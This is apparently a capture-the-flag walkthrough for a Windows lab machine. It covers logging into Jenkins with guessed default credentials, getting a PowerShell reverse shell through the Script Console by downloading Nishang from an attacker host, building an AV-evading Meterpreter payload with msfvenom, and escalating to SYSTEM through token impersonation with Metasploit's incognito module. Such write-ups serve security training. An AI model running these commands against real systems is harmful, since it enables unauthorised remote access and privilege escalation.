 #Web #Powershell 
## Initial Access

Jenkins is a tool used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made changes to it.

We will use [Nishang](https://github.com/samratashok/nishang), in this case the [reverse shell scripts](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).

Found a Jenkins login portal on port 8080, login credentials are admin:admin (found by guessing).

Can execute commands in Manage Jenkins -> Script Console.

Executed the reverse shell using `"powershell iex (New-Object Net.WebClient).DownloadString('http://<ip address>:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <ip address> -Port <port>".execute()`
`

## Switching Shells

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o <output file name>.exe` - Used this command to create a Meterpreter shell, payload is encoded to ensure it transmitted correctly and to evade AV.

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip address>:8000/shell-name.exe','shell-name.exe')"` - Used this command to download the shell to the target machine.

Set up an `exploit/multi/handler` at Metasploit.

`Start-Process "<file name>"` - Start the reverse shell on the target machine.

## Privilege Escalation

We will use token impersonation to gain system access.

Account tokens which defines privileges are a assigned to an account when a user logs in or authenticates, this is usually done by LSASS.exe.

The access token consists of:

- User SIDs
- Group SIDs
- Privileges

The 2 access token types:

- Primary access tokens: Associated with a user account and generated at login.
- Impersonation tokens: Allow a particular process to gain access to a resource using the token of another.

There are different levels for impersonation tokens:

- SecurityAnonymous: current user/client cannot impersonate another user/client.
- SecurityIdentification: current user/client can get the identity or privileges of a client, but can't impersonate the client.
- SecurityImpersonation: current user/client can impersonate the client's security context on the local system.
- SecurityDelegation: current user/client can impersonate the client's security context on a remote system.

Security context is a data structure which contains users' relevant security information.

Most commonly abused privileges:

- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

`whoami /priv` - List all privileges, found 2 useful ones that are enabled, SeDebugPrivilege and SeImpersonatePrivilege.

We will use the incognito module to exploit this vulnerability.

`load incognito` or `use incognito` - Load the incognito module into Metasploit.

`list_tokens -g` - Check which tokens are available, found the BUILTIN\Administrators token is available.

`impersonate "BUILTIN\Administrators"` - Impersonate the administrators' token.

`getuid` - Confirm you have SYSTEM privileges.

Since Windows uses the primary token of the process and not the impersonation one, you might still not have the permissions of a privileged user even with a higher privileged token.

`ps` - List processes.

`migrate <process PID>` - Migrate to a process with higher privileges.